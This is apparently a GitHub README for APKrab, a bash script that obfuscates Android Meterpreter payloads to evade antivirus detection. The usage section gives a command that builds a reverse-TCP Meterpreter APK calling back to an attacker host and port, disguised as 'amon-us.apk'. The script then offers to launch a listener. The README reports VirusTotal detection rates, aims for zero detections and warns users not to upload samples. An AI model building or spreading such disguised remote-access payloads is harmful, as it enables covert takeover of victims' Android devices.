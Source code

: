 # Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Icsbs5mvuD.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Wdeanc6BeL.jpg)

